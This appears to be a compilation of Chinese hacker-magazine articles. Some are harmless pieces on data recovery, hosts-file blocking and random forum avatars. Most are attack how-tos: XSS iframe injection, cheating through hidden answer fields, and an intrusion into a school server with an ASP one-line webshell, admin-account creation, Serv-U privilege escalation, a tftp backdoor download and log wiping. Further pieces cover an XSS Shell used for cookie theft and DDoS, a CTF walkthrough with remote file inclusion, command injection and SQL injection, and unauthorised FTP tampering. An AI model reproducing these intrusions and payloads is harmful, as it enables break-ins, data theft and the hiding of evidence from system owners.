于是我开始尝试，既然将“留名”转换成 URL 编码后就是“%C1%F4%C3%FB”，那么我就直接提交“黑客X档案”上去看看会返回什么，结果发现“黑客X档案”已经显示在了网页的正文中，这就可以证明这是一个骗局了。其实并没有人入侵到网站，而仅仅是提交了一个打开对应栏目的网址；但由于参数过滤不严谨，所以就算我们提交的栏目名字在网站中并不存在，但网页也会正常地回显出我们提交的地址中指定的栏目名，于是就产生了“工行被黑的新闻”。由此看来动态网页的参数如果过滤不严，后果真的很严重啊。


正当我打算关闭网页离开，脑子里突然冒出了一个想法：联想到前些天的“about 协议”，这个也是在 URL 中做的手脚，所以就想试一下这里能不能使用那些 HTML 语言，如果能挂马的话，把这个当成黑页发出去，一定会有人点击查看的。说干就干，使用 URL 编码器将“<iframe src='http://www.baidu.com'></iframe>”转换成 URL 编码，出来了长长的一大串，将编码得到的代码粘贴到“hotspot.jsp?column=”的后面，提交成功，等到网页显示出来后，发现百度网页赫然显示在网页正文中，如右图所示。

至此测试就结束了。不过有一点需要说明，如果不编码而直接将代码加在“hotspot.jsp?column=”后面的话，一样可以实现，但是看到 URL 里面的那些代码，我想不会有几个人愿意打开的吧。

这个漏洞记得前段时间也碰到过，当时只是一笑了之了，并没有深挖，不过这次深挖之后明显是挖到了一样好东西。由此可见，在碰到问题的时候还得要仔细研究，而不是只沉溺于一些表面的东西，我想这才是真正的黑客精神的所在吧！（本文所涉及到的 URL 编码字符串转换器收录到光盘中）

## 帮你笔试拿点 100 分

王炜 / ww0830

每年的这个时候，毕业生们就逐渐进入了找工作的高峰期，进行招聘的公司有很多，但找工作的毕业生更多。每次招聘会，无一例外的都是里三层外三层的人海，连有些总共才招20来个人的小公司，都会有五六百人去参加应聘……应聘的整个流程需要经过简历筛选、笔试以及至少两轮的面试，最后才能拿到 offer，其状况之惨烈，比“千军万马过独木桥”有过之而无不及。

由于应聘的毕业生实在太多了，许多公司采取的策略都是简历和笔试刷去大多数人，只留下少量的进行面试，所以只要过了笔试这一关，面试的时候就可以看自己的发挥了。但笔试也很难呀，有没有什么简单的方法可以轻松通过笔试呢？

我们进入 chinahr，会看到有很多公司进行招聘，打开阿里巴巴和雅虎中国的招聘站点，发现有很多职位可以申请，点击 APPLY 后，就会把该职位放入到职位收藏夹中（图1）。


选择好想申请的职位后，点职位收藏夹的“提交”，就可以点击进入在线笔试系统了（图2）。

大致地来看这些笔试的问题，哇，可真难啊，什么都有；应聘开发程序员居然还有关于经济的问题，可真受不了呀。随手点一下鼠标右键，查看源代码，可真够乱的，table、input、hidden……嗯？hidden，居然还有 hidden 这个小东西。

> **小知识：**
>
> hidden 在 HTML 中被称为隐藏域，带有 hidden 属性的内容不会在页面中显示出来，通常应用在信息提交中（图3）。

我们细一看，hidden 属性对应的 name 是 qAnswx，x 是数字，哇，看这个样子，好像是答案耶。再仔细一看，有对应的 value 值，真是越看越像！既然像，就把它们调出来打在网页上，以方便我们对照。调出 hidden 属性值的方法实在太简单了，先把网页源代码保存下来，然后使用记事本打开进行替换（图4）。


把“type='hidden'”全部替换为空格，替换后再把文件改名为 html 后缀，重新打开来看（图5）。哈哈，答案全部显示出来了，绝对都是正确的答案哟！照着填上去就 OK 了。

## 让你的邮件愚蠢

工作真难找，去了一个月的招聘会，在人才网也给 N 家的公司投了简历，发了无数封电子邮件都如石沉大海，杳无音信。后来我在网上找了很多关于面试技巧的文章，其中有一条提到了发电子邮件投简历提高命中率的方法，即将系统时间改成将来的日期，发出的邮件日期就会是你的系统日期，将排在收件箱的最前面。


“正常”情况下，主题为“使用网页发送”的邮件应该排在最前面，而我的收件箱却不是这样（图3）。从后面的日期可以看出虽然都是 11 月 25 日，但一个是星期二，另一个是星期六，显然不是同一天。打开邮件发现日期正如前面所说，使用邮件客户端 Outlook 发送的能人为改动日期，而使用网页发送的却不能改变日期。

我按文章说的方法把系统时间改成了 2008 年，再用 163 的邮箱给自己发了一封电子邮件，却没有达到想要的效果。后来经过测试，终于找到了失败原因。原来，发邮件时，如果使用网页发邮件，日期显示的是发送邮件服务器的系统日期；但如果使用邮件客户端软件发送邮件（如 Foxmail、Outlook 等），日期显示的将是我们自己系统的当前时间。


为了证明我的说法，下面举个例子。先将自己的系统时间改成 2008 年，再使用 Outlook 给自己发一封电子邮件（图1），主题为“使用 Outlook 发送”。为了区别，我再用另外一个邮箱发送，进入 163 网页邮箱后给自己发送一封电子邮件，主题为“使用网页发送”（图2）。


本文就此结束，也没有什么很深的技术含量，不过，考虑到 X 档案的读者大部分是在校生，以后要面临找工作，这篇文章也许会帮你们的大忙。说句实话，我工作真难，菜鸟们，大家努力，学好黑客技术也是我们的工作本钱啊。

## 偷聊贴图 举手可得

— 星￥光

相信小菜们在泡论坛的时候经常会看到一些比较搞笑的贴图，如图1。可能有许多小菜会以为那是摆弄 Photoshop 的杰作。呵呵，其实根本不用那么麻烦，只需要一个网站就可以了。

我们进入 http://www.gaogao8.com 这个网站，选择自己喜欢的一个素材，如图2。选择我们喜欢的泡泡，并设置好方向，在“我也来搞搞”处输入你要恶搞的文字，如图3。然后单击“提交我的搞搞”就可以生成我们自己的贴图了，可以直接复制下面的地址，贴在论坛上，如图4。

如果素材中没有我们喜欢的，也可以自己上传素材，这个网站不用注册也没有限制，非常方便。打开素材上传页面，选择我们要恶搞的图片并上传，上传成功后，在页面底部选择刚上传的图片，如图5，然后的制作方法就跟前面一样了，如图6。

怎么样？简单吧！只需点几下鼠标，敲几下键盘，就拥有自己的贴图了。


## 菜鸟特殊的破解——突破触摸屏的限制

kubau0


前一阵子学校组织体检，集体去学校旁边的某医院。男生检查完后就在大厅等女生，恰巧大厅里有台查询药价的触摸屏，目标就是它了……触摸屏对于操作的限制有很多，只可以进行鼠标移动、单击、双击、拖动，不能进行右键和滚轮操作，也不能进行键盘操作。

屏幕上是一套药价查询软件，按键很大、全屏显示。通过尝试与误操作，作者在系统中发现可利用路径并进入 IE，随后进一步在页面输入框与地址栏间“拖放”实现页面跳转与访问。


来到 Program Files\Internet Explorer 文件夹后，把小文件夹拖到 iexplore.exe 上打开 IE；再通过链接和输入框完成网页访问。文末强调本文并非鼓励破坏，而是说明攻防场景无处不在。

## 我的电脑只有我能上网

FlashMX2008


我们寝室的每台电脑都有一段“血泪史”……由于共享使用和频繁中毒，作者决定通过修改系统配置来限制访问某些网站。

文中介绍 Windows 中 `C:\WINDOWS\system32\drivers\etc\hosts` 文件的作用，可在文件末尾看到 `127.0.0.1 localhost`，并据此进行站点映射控制。


这句的意思是指当我们访问 localhost 这个网址时，系统将自动跳转到 127.0.0.1 这个地址上，比如我们在下面添加一行“127.0.0.1 www.baidu.com”，这样当访问网址“www.baidu.com”时就会跳转到 127.0.0.1 这个地址，因为 127.0.0.1 是保留给本机使用的 IP 地址，因此我们在 IE 中只会看到“该网页无法显示”的页面，如图3。


这样一来，我们就可以使自己的电脑无法访问一些设定的网站了。但是当我们自己要访问时该怎么办呢？如果要手工一个个修改的话，很是麻烦。我写了两个简单的批处理文件来处理这些麻烦的事儿，如图4。


先来看一下断网.bat 文件中的内容（图5）：

```bat
del c:\WINDOWS\system32\drivers\etc\hosts
copy D:\科研工作\之专家组工作\hosts c:\WINDOWS\system32\drivers\etc\
```

就是将原来的 hosts 文件删除，再将我们设置好的 hosts 文件复制到那个目录下。

而上网.bat 文件中的内容如下（图6）：

```bat
del c:\WINDOWS\system32\drivers\etc\hosts
copy D:\科研工作\hosts c:\WINDOWS\system32\drivers\etc\
```

就是将我们自己设置过的 hosts 文件删除掉，再将原始的 hosts 文件复制到那个目录下。注意在 hosts 文件删除前，都要先备份好哟。


每次当我们自己用完电脑后双击“断网.bat”，这样当那兄弟再使用我的电脑时，只要访问了设置过的网站，就只能看到“该网页无法显示”的页面了。

如果害怕自己每次用完电脑后忘了运行“断网.bat”的话，还可以将“断网.bat”文件加入到关机自动运行里。具体步骤如下：

- 1. 点击“开始”→“运行”，输入“gpedit.msc”打开组策略。
- 2. 在左侧选择“计算机配置”→“Windows 设置”→“脚本（启动/关机）”，如图7。
- 3. 双击右侧的“关机”，打开“关机属性”，点击“添加”，然后把“关机.bat”的路径输入进去，点击“确定”即可。

## 找回丢失的重要数据

黑侠（Black Mask）

想必许多菜鸟都曾经遇到过硬盘分区被误格式化，或是误删了一些重要的文件，使得自己辛辛苦苦整理的文件在一瞬间化为乌有，这是让人非常头疼又心痛的事。其实这些被误格或误删的文件，并非找不回来，还是有补救方法的——使用 EasyRecovery 数据恢复软件，就可以轻松地将那些文件找回来。EasyRecovery 是一款功能非常强大而操作又十分简单的数据恢复软件，能够重建硬盘分区表，恢复文件系统和丢失的文件。

### 一、EasyRecovery 数据恢复原理

当我们删除某个分区上的文件或将某个分区格式化后，其实并非已经将这些文件全部真正地删除掉，而是这些文件的结构信息还保留在那个分区上，除非我们在那个分区上重新建立了新的文件或文件夹，那个分区上以前的数据才会真正地消失掉。这时如果你还想恢复那些数据的话就不太可能了，因为那些老的数据已经被新的数据给覆盖了。所以要想恢复数据的话就一定要在写入新的数据之前利用恢复工具进行恢复，否则你的数据将永远找不回来，这点一定要切记！

EasyRecovery 找回数据、文件的前提就是硬盘中还保留有文件的信息和数据块，其使用了复杂的模式识别技术找回分布在硬盘上不同地方的文件碎块，并根据统计信息对这些文件碎块进行重整，接着在内存中建立一个虚拟的文件系统并列出所有的文件和目录。

### 二、误删除后恢复数据

首先打开“EasyRecovery Professional 6.10.07”，点击“数据恢复”，如图1。假设我的 E 盘里有四个文件，分别是千里之外.wmv、windows server 2003.txt、02.jpg 和 123.doc，全选后按 Shift+Delete 直接删除。现在这四个文件就没有了，同时也已经找不到了。我们回到“EasyRecovery”数据恢复的操作界面，点击“删除恢复”，将会弹出如图2所示的提示，现在软件正扫描当前硬盘的所有分区。稍等一会儿就会来到选择恢复分区的界面，如图3，因为我们是要找回 E 盘上误删的数据，所以选择 E 盘，其它的默认，点“下一步”。由于我的 E 盘上只有四个文件所以速度非常快，不一会儿就找到了，选中右边名称里的那四个文件（有时候文件名可能会有一点的出入，不过还是可以很容易分辨出来的），如图4。


图3

恢复的操作界面，点击“原始恢复”，接着也是弹出一个请稍候的对话框，然后来到如图8所示的界面，再选择E盘，其它默认。


图8


图4

点击“文件类型”选择要恢复文件的扩展名，选中“保存”，直接使用默认的扩展名来恢复。再点“下一步”，程序会弹出一个正在扫描文件的对话框，如图9。


图9

再点击“下一步”，在恢复目的选项中选“恢复到本地驱动器”，选择一个分区或目录（不能选择被恢复文件所在的当前盘）。点击“下一步”后就开始恢复了，如图6。


图5


图6

我们要根据扩展名来寻找需要的文件，DOC、JPG、WMV（示例中找到 ASF 对应恢复），恢复出来的文件可能有多个。再点“下一步”，选择一个本地分区，恢复完成如图10、图11。


图10

因为文件比较少、容量也小，所以恢复速度较快。最后点击“完成”。回到桌面查看，文件已经成功找回且可正常打开，如图7。


图7


图11

### 三、误格式化分区后恢复

我再将02.jpg、123.doc、千里之外.wmv这三个文件放回我的E盘里，然后将E盘格式化，再回到“EasyRecovery”数据恢复流程。

打开新建文件夹，你会看到一些以扩展名命名的文件夹，如图12。此时它们的文件名以 FILE0 顺序命名，所以你要一个个打开来看看是不是你想要找的文件。看，我全部都找到了，文件也都没有损坏，如图13。


其实 EasyRecovery 远不止这几个功能，还有其它许多功能，比如修复 Office 文件等等，有兴趣的朋友自己慢慢去研究吧。（本文所涉及到的 EasyRecovery 已收录到光盘中）

## 校园网菜鸟入侵大战

Jannick [L.S.T]


### 一、入侵前奏

高一刚到学校时，还不敢拿学校的服务器开刀……于是加用户名、种木马，机械式的操作让我真的做了一次“鸡场主”。那些肉鸡大多都没什么用，但其中却有一台电脑给我带来了好运……得到一个校园网 Web 服务器 10.100.0.2 的具有上传、删除、修改文件权限的 FTP 账号。

### 二、总攻开始

这一次，我们将目标锁定在了校园网 Web 服务器 10.100.0.2 上，网站使用的是动网的 Asp.net 新闻系统……端口开放有 21（FTP 服务）、80（Web 服务）、3389（远程终端服务）……


既然服务器支持 Aspx，那就直接上传 Aspx 的 webshell，因为默认情况下运行 Aspx 文件的 ASPNET 用户是 USERS 权限……上传一个 lake2 的 Webadmin2.x final 版上去，成功得到了一个 Webshell……为了保险又在几个页面中插入了一句后门：`<%On Error Resume Next%><%execute request("cmd")%>`。

### 三、塞翁失马

第二天上线时突然发现 Webadmin 找不到页面，估计是被删除了，登录 FTP 发现密码也被改了……

确认无误后直接点击左侧的下拉菜单，选择“系统变量”，如果连接成功就会看到服务器的信息了。还好，一句话木马没有被删除，但是这个 Asp 的 webshell 权限比较低了，点击下拉菜单，选择“系统命令”，输入 `net user` 执行，权限不够，如图4。算了，赶紧稳定情绪，有 shell 就好办。点击下拉菜单，选择“读取目录”，输入网站根目录，可以浏览。尝试找了一下类似 `conn.asp` 的数据库连接文件，但是一无所获。

### 四、歪打正着

我静下来，整理了一下思路：Web 服务器上没有安装 MSSQL 或者 MySQL，莫非数据库和 Web 服务器是分离的？顺着这个思路，我来到 `10.100.0.2` 的新任职校办，一个一个查看可疑的文件，如图5。当看到 schoolnews 目录下 `web.config` 的内容时，我得意地笑了，如图6。文件中就有数据库连接信息，可以看到本机连接到 `10.100.0.9` 上的 schoolnews 库，而且使用的是 Sa 用户，默认的话那可是 System 权限！马上拿出 SqlExec 输入地址、用户名、密码进行连接，成功了！然后立刻输入 `net user hack hack /add` 和 `net localgroup administrators hack /add` 添加一个用户名和密码均为 hack 的账号，命令成功完成，如图7。继续执行命令 `netstat -an` 查看端口，发现 3389 开放，直接登录上去。哈哈，SQL 数据库服务器到手了，如图8。

### 五、又见 Serv-u

轻松拿下了数据库服务器后，下一步就是 Web 服务器的提权问题了，本地溢出好像不行，服务器也没有装 pcanywhere，要是装了 Serv-u 的话就……拿出 Nc 输入 `nc -vv 10.100.0.2 21` 来连接 Web 服务器的 FTP 服务（如果 Webshell 可以执行命令的话也可以通过 `net start` 命令来查看服务），Nc 的返回信息令我大跌眼镜，居然真的有 Serv-u，如图9。我马上回到一句话木马，下拉菜单选择“创建文件”，“文件名”输入 web 目录的物理路径 + 文件名全称（要后缀名），如 `D:\www\images\su.aspx`，“文件内容”写入 Aspx 版的 Serv-u 提权工具，点击提交后就可以通过 `http://10.100.0.2/images/su.aspx` 访问了，如图10。直接在 cmd 框内输入命令并执行提权，成功了，如图11。

> **小提示：**
>
> 很多人不知道如何利用 Serv-u 提权和判断命令执行成功。这里说一下：看到返回信息后，在界面框里输入命令，例如 `in site exec net user hack hack /add&net localgroup administrators hack /add`，然后往下拉，若看到类似 `200 EXEC command successful` 的提示，说明命令执行成功；如果返回 `Not logged in` 等信息，则说明没有成功执行，可能是管理员修改了默认密码。


图4


图5


图6

```text
net user
net user hack hack /add
net localgroup administrators hack /add
netstat -an
nc -vv 10.100.0.2 21
in site exec net user hack hack /add&net localgroup administrators hack /add
```

## 傻瓜黑客


图7


图10

最后，既然权限都拿到了，那么就可以直接登录3389了，任务完成。最后离开的时候记得删除日志，推荐使用 logkiller.exe，很方便的一款小工具，直接双击即可删除系统的所有默认日志。

### 六、种植后门

在拿到系统权限删除日志后，我一连几天都懒得去动服务器了，这天心血来潮又想登录上去玩玩。可是当我使用上次的老办法拿到权限登录3389的时候，意外却发生了，如图12。看来是管理员老师发现了我的入侵，并对安全策略进行了调整，估计是只允许 administrator 用户登录3389。日志还没消除，这怎么办呢？对了，我还有一个系统权限的 CMD，那就是 Serv-u，我可以尝试一下使用 tftp 上传后门并运行。说干就干，在本地双击 TFTPD32.exe，这样就完成了 TFTP 服务器的搭建。将后门程序 jannick.dll（随意门，以前 X 上曾经介绍过）放在 TFTPD32.exe 所在目录下，然后在 Serv-u 上输入 `tftp -i 10.100.7.100 get jannick.dll`，提示上传成功，TFTP 服务器也显示上传完成；如图13。然后安装后门，成功后祭出连接器进行反向连接，输入密码，删除日志，闪人，如图14。

就这样，我渡过了一个漫长的入侵流程，在入侵过程中也温习了许多工具及技巧的使用。

> （本文所涉及到的 X-Scan、SqlExec、ASP+PHP 两用 Shell、webadmin2xf、ASPX 版 Serv-U 提权工具、NC、LogKiller、随意门2006、TFTPD32 已收录到光盘中）


图8


图9


图11


图12


图13


图14

## 让论坛头像三十六变

阿布

前几天在论坛上游荡，看到某人的头像会动哦！怎么动？刷新一次就变一下！鼠标右键点击图片，查看它的属性再说。咦？怎么是个 PHP 文件啊？打开看看，竟然是个图片。我研究了半天终于搞明白了，其利用原理跟大家经常见到的验证码类似，大家想不想也给自己换一个这样个性的头像呢？

### PHP 实现方法

- 首先要申请一个支持 PHP 的空间，为什么呢？因为要执行 PHP 嘛。
- 接着准备想要显示的图片，存放在一个文件夹里，文件名最好为英文或者数字（图1）。
- 开始编写 PHP 代码：

```php
<?php
$url='mm/';
$files=array();
if($handle=opendir($url)){
  while(false!==($file=readdir($handle))){
    if($file!='.'&&$file!='..'){
      if(substr($file,-3)=='gif'||substr($file,-3)=='jpg'){
        $files[count($files)]=$file;
      }
    }
  }
}
closedir($handle);
$random=rand(0,count($files)-1);
readfile($url.$files[$random]);
?>
```

- 修改完了代码就保存为 ***.php 吧。
- 将这个 PHP 文件跟那个 mm 文件夹传送到 PHP 空间上，然后在 IE 里访问一下这个 PHP 文件，看有效果（图2）。
- 在论坛中设置头像时要注意：如果直接设置为 PHP 文件 URL 地址，论坛会返回“您设置的头像类型无效”。可在 URL 后加无意义参数（如 `?*.gif`）来通过扩展名检查（图3、图4）。

### ASP 实现方法

- 同样申请一个支持 ASP 的空间。
- 同样准备 N 个喜欢的图片，放在目录并与 ASP 文件一致。注意：文件名最好用英文，而且最好有顺序感。
- 开始编写 ASP 代码：

```asp
<%
Randomize
picz=int(rnd*6)
Select case picz
case 0
  response.redirect("0.jpg")
case 1
  response.redirect("1.jpg")
case 2
  response.redirect("2.jpg")
case 3
  response.redirect("3.jpg")
case 4
  response.redirect("4.jpg")
case 5
  response.redirect("5.jpg")
End Select
%>
```


代码中的 0-5.jpg 就是你图片中的各个文件名，一定要注意哦！

- 将这个 ASP 文件跟那个 mm 文件夹传送到 ASP 空间上，同样也来测试一下 ASP（图5）。


图5

- 在论坛中设置头像的时候还是依照 PHP 的设置方法：“URL+?*.gif”（图6）。


图6

在 PHP 语言实现方法中使用的是随机读取任何一个已经定义好类型的文件，核心为 readfile 函数；在 ASP 语言实现方法中使用的是 ASP 中定义的跳转语句，核心为 response.redirect 方法。在 JS 语言中也有个跳转语句 window.location.href，但是测试失败，而且发现这个跳转跟 ASP 中跳转不一样。哪儿不一样呢？使用 ASP 跳的时候在 IE 中不能后退，然而在 JS 的 IE 跳转中却能后退。由于我的 JS 学得不好，还请高人指教。在测试中还发现，这个代码不光可以使用在头像中，也可以使用在个性签名和帖子中。

> （本文所涉及到的代码和操作动画已收录到光盘中）

## 跨站活捉之XSS SHELL

Mickey

目前在网上，能够被跨站攻击的站点有很多，通过跨站攻击我们可以窃取客户端的认证信息，临时篡改服务端的页面等。这几月以来我学习更高级的手法，搜索出一个好用的跨站工具——XSS SHELL，该工具除了能够窃取客户端的认证信息外，还能够让你与受害者之间进行交互式的操作，绕过 IP 地址限制、拥有 DDOS 功能，得到剪切板信息等。

### 一、安装

XSS SHELL 是由几个 ASP 文件和一个数据库文件组成的，所以我们要把它上传到支持 ASP 的 Web 服务器上。首先解压文件，除了 sample_victim 文件夹和 readme.txt 文件，把其它文件全部上传到服务器上。我以内网中的一台电脑为例子，在自己的 Win2003 上搭建好 Web 服务器，把 db 文件夹和 xssshell.asp 文件全部放到了 xssshell 文件夹下，如图1。接下来我们修改 xssshell 文件夹下的 db.asp 文件，修改 DBPATH 常量为你存放数据库文件的目录。前面之所以把 db 文件夹放到 xssshell 文件夹中，就是为了避免 IIS6.0 默认安装后不启动父路径的限制，如图2、图3。

接着在 db.asp 文件中搜索“w00t”关键字，这个是默认登录管理界面的密码，修改为自己想要的。现在我们就能使用自己的密码来登录管理界面了，如图4。


### 二、使用

```html
<script src="http://192.168.0.1/xssshell/xssshell.asp?v=336699"></script>
```

## 傻瓜黑客


后，把 flash 发送给好友，当他使用浏览器观看时，同时也就访问了我们服务器上的跨站页面（跨站脚本）的 IP 应该能让别人访问到，像类似 192.168.0.1 就要在内网中使用，外网访问就要填你的外网 IP 地址，以保证别人能“找到你”。回到管理界面，可以看到好友的 IP 已经连过来了，我们在 Victims 栏可以看到受害者的浏览器版本、操作系统版本，如果是外网主机的话，还可以看到 IP 的所属国家，如图6。

在 Commands 栏我们可以对受害者进行如下操作：

- **GetCookie()**
- **GetSelfHtml()**
- **alert()**
- **eval()**
- **prompt()**
- **GetClipboard()**

**1. GetCookie()**  
得到受害者的 Cookie 信息。点击后就会在 Logs 栏显示出 Cookie 信息，这是跨站的最基本目的，得到 Cookie 后可用来欺骗。但如果服务端程序过滤了会话，就无能为力了，如图7。

**2. GetSelfHtml()**  
得到受害者当前浏览的页面。点击后就会在 Logs 栏里返回一个 HTML 链接，再点该链接，就会打开一个新的窗口，显示出受害者当前浏览的页面，如图8。

**3. alert()**  
在 Parameters 栏输入要发送的文本，再点 alert() 函数，受害者的浏览器就会弹出一个警告框。如果在 Logs 栏下返回 Success 标记，就表示成功执行了。

**4. eval()**  
可以在 Parameters 栏自定义要发送的 JavaScript 脚本。如果在 Logs 栏下返回 Success 标记，就表示受害者端的浏览器成功执行了脚本。

**5. prompt()**  
同样在 Parameters 栏输入要发送的文本，点 prompt() 后，在受害者的浏览器端会弹出一个提示框。如果受害者在输入框内输入文本了，在 Logs 栏会返回输入的信息，如图9。

**6. GetClipboard()**  
这个函数只对 IE 浏览器有效，如果受害者使用 IE 浏览器……访问你的跨站页面，在点击该函数后，就会在 Logs 栏返回受害者的剪切板信息。

### 7. GetInternalIP()

这个函数只对 Firefox 浏览器有效，还需要受害者已经安装了 Java 虚拟机运行环境。如果满足这两个条件，点击该函数后，就会在 Logs 栏返回受害者的内网 IP 地址。

### 8. CheckVisitedLinks()

判断受害者是否访问过 Parameters 栏中输入的 URL 地址。这个函数可以进一步帮助我们了解受害者的网络活动信息。如果是访问过的 URL，就会在 Logs 栏返回 True，反之返回 False。Parameters 栏中输入的网站不要太多，否则网络延迟会很严重，如图 10。

### 9. GetPage()

这个函数我认为应该是最有用的一个了。假设我们访问某些 Web 站点，而 Web 站点对我们进行了 IP 限制，而受害者没有，我们就可以在 Parameters 栏输入 Web 站点的 URL 来绕过 IP 限制……还可以借助 /icons/apache_pb.gif 等路径判断对方 Web 服务器软件，并从访问日志中定位受害者 IP 地址。

### 10. DDoS()

这个函数是用来对 Web 服务器进行 DoS 攻击的，当然这需要大量的受害者 IP 地址。在 Parameters 输入要 DoS 的 URL 地址，再点下这个函数就可以了，如图 12。

### 11. Crash()

这个函数是用来对受害者自己进行 DoS 攻击的，当点了这个函数后，受害者的 CPU 会达到 100% 的占用率，当受害者把浏览器关闭后，CPU 就恢复正常了。


### 二、总结

由于是 XSS，所以时效性不是很好，而真正应用到 Internet 时，还要考虑某些函数的延迟问题，所以在内网的效果要比外网好些，做内网渗透时可以用到。

## CorruptCode 站点 Web 安全游戏闯关攻略


国内有许多安全站点都制作了闯关游戏，很是好玩……通过朋友介绍，来到了 http://www.corruptcode.com/ 这个站点。这个站点提供了许多安全游戏，不过我今天主要玩的是有关 Web 安全的，一起来看看吧！

在玩所有游戏前要注册一个帐号才可以开始，通过查看该 Web 安全游戏的说明我们可以了解到，每个关卡都提供给玩家漏洞的源代码，我们要根据这些漏洞代码找出利用方法，发现到达下一关游戏的密码，游戏一共有 9 关（图 1）。


## 傻瓜黑客

### 第一关

这一关太简单了，通过给出的代码，我们发现 `<!-- Password Reminder = 30833736 -->` 这段 HTML 代码的注释部分很清楚地显示出进入下一关卡的密码，密码为 30833736。通过这关的测试，我们可以了解到，当黑盒测试一个 Web 应用程序时，可以通过查看 HTML 的源代码，来找出有用的信息。比如带有功能描述性的注释、管理员邮件地址、FORM 表单的 Hidden 属性等等。


图 2

### 第二关

通过这关给出的代码，我们可以看出，如果要想通过这关，关键的部分在于 Cookie 中的 admin 属性是否为 yes。如果为 yes，密码无论为何值，都可以通过，这也就是所谓的“Cookie 欺骗”。我们要利用的工具为 Firefox 浏览器的一个插件“Tamper”，这个插件可以修改请求页面时发出的参数，也可以修改 Cookie 的值（也可以使用常用的修改 Cookie 的浏览器）。打开 Tamper，选择“Start Tamper”，重新请求一下第二关的页面，请求时提交的参数就会被 Tamper 拦截下来，现在要做的就是把 Cookie 值中的 admin 改为 yes，点下 OK 按钮，就进入下一关了（图 2）。


图 3

### 第三关

还是先来看给出的漏洞代码，只要把 POST 时的 access 参数名的值改为 admin，就可以看到通过下一关的密码了。还是利用 Tamper 插件，这次不要点击浏览器的刷新页面了，要点击“refresh page”这个按钮。请求过程被拦截下来，我们修改 access 参数的值为 admin（图 3），点 OK 按钮提交，就会把通过下一关的密码告诉你了，密码为 bcddfeb8。

### 第四关

这关给出的漏洞代码，我想大家一定都会看懂。PHP 设计中的漏洞之一——远程文件包含漏洞。由于代码中是利用 GET 方法请求的变量，所以我们只要在浏览器的地址栏后面输入 `?page=http://hack.org/andy.php` 就可以了（图 4）。在实际的安全测试中，你的后门文件就会被当前的服务器包含，如果权限适当，就可以对当前服务器的文件进行操作了。这里你只要知道怎么利用这个漏洞就可以得到下一关的密码，5fbf4308 了。


图 4

### 第五关

这关给出的漏洞代码就是典型的本地包含漏洞，这关也同样使用 GET 方法请求，直接在浏览器的地址栏请求 file 变量的值为本地关键配置文件 config.php 就可以了（图 5）。config.php 的内容被显示出来了，不过并不是全部，要通过查看源代码来找出敏感的信息（图 6）。


通过下一关的密码为 e6ff3c09。在实际的渗透过程中，本地包含漏洞一般是用来查看连接数据库的配置信息文件，得到连接数据库的帐号信息。如果数据库的连接不是限制 localhost，就可以在自己的本地架设 phpMyAdmin，然后配置好帐号，直接管理漏洞主机的数据库了。

还有一种利用方法，如果有远程包含漏洞的 PHP 程序，还有上传图片的功能，我们可以把 PHP 代码写入到一个文本文件中，然后把后缀名改为允许上传的图片格式，如 jpg、gif、png 等，然后上传到主机。利用本地包含漏洞，把图片包含进来，图片中的 PHP 代码就会自动执行了。不过也有些小的限制，如果 php.ini 的 magic_quotes_gpc 的值为 on，在浏览地址栏中输入本地的路径时，还要做好“/”的转换。

### 第六关

这关给出的漏洞代码很短，但是实际的危害却很大，PHP 语言中的 system 函数是用来执行系统命令的，这段代码通过 POST 方法提交的 year 变量没有做任何过滤，我们可以利用 Linux 主机的分号特性，一次执行多组命令。在 Enter year 中随便键入一个年份，再打开 Tamper 插件，提交页面，把请求拦截下来。在请求的 year 变量后面加入“;ls”，这样通过请求后，Linux 主机就会返回 2007 年的日历和当前目录下的文件了（图 7）。显示出敏感文件为 config_046.php，我们再次请求 cat config_046.php，就把通过下一关的密码显示出来了 52cf9715（图 8）。

### 第七关

这关的漏洞是全局变量没有做好严格过滤的漏洞。根据给出的代码，直接在浏览器地址栏中提交 levelup.php?is_admin=mickey&username=-mickey 就可以通过这关了（图 9）。现在有这种漏洞的程序已经很少了，因为目前 php.ini 默认安装时，register_globals 值是为 off 的。

### 第八关

这关给出的代码就是更常见的漏洞——SQL 注入漏洞，SQL 语句没有对 username 和 password 变量做任何过滤就直接放入数据库执行查询了。SQL 查询语句为 `SELECT * FROM userAccounts WHERE username='$username' AND password='$password'`，要做单引号的匹配，我在 username 和 password 都输入 `OR 'a'='a`，这样 SQL 语句就变成 `SELECT * FROM userAccounts WHERE username='' OR 'a'='a' AND password='' OR 'a'='a'`，提交后连关密码也出来了（图 10）。

### 第九关

这关给出的代码现在很常用，php.ini 文件中 magic_quotes_gpc 不论何值，都没有对 `$_SERVER` 请求进行任何限制。通过这段漏洞代码，我们可以利用 Tamper 插件直接修改 User-Agent 的值为一句话木马，然后提交（图 11）。这样提交后一句话木马被写入了一个 PHP 文件中，由于这里是游戏测试，就把密码显示出来了。实际的渗透过程中把一句话木马提交后，就可以本地连接服务器上后门文件，然后进一步入侵了。


图 9


图 8


图 10


图 11

### 结束

至此，Web 游戏的所有关卡都被我们通过了，基本的一些常见 Web 程序漏洞都演示到了。相信你一定收获很多，在以后的 Web 渗透过程中，或许有些帮助。


## 叉子的计算机考试

“考考考，老师的法宝”，这句话可真是一点没错，眼看这学期各学科就要会考了，老师们是三天一大考，两天一练习地折磨我们。数学、语文和英语这些课考考也就算了，可偏偏计算机课又要练习，搞得我们一周一节的电脑课就这样浪费了。先来看看题目吧，一共 25 道题，每题 1 分，满分为 25 分（图 1）。


竟然考的是 Win98 的基本操作！VISTA 都出来了还考这些。我对于 Win98 虽然不熟悉，可是 X 档案看多了，被这点难住的话岂不是太没面子了。我大致看了看试题网页，发现在源代码里有比较答案。习惯性地查看源代码，果然找到了要的东西（图 2）：可以很清楚地看到，代码的意思是分别校对每一道题的答案，对一道题就加一分，而 0、1、2、3 分别代表的是答案 A、B、C、D。这就好办了，依照着答案勾选相应的题目，然后点统计，怎么样，满分了吧（图 3）。


老师为了我们专心测试，把网线给拔了，我又看了一遍网页源代码，真是不看不知道，一看吓一跳啊，原来网页是调用 FTP 上的（图 4）。看到这个 FTP 地址，相信很多朋友比我还熟悉吧！竟然这么轻易地就把 FTP 服务器的 IP 地址、FTP 账号和密码暴露了，唉，难道这就是我敬爱的老师的杰作吗？


不过有一点我不大明白，明明是拔了网线，为什么又能成功地调用 FTP 服务器上的网页呢？我们电子教室里除了 70 台学生用电脑和 2 台教师用电脑外明明没有服务器啊？对此，我有些想不通。等到了周末，我在校外网吧用 FTP 登录了上去，可以成功列目录（看来不是内网服务器），而且还可以上传下载文件，如图 5。


我大致地看了看文件内容，发现了原来调用的试题网页（图 6）。在里边随便加上几个字就赶快溜之大吉了（图 7）。


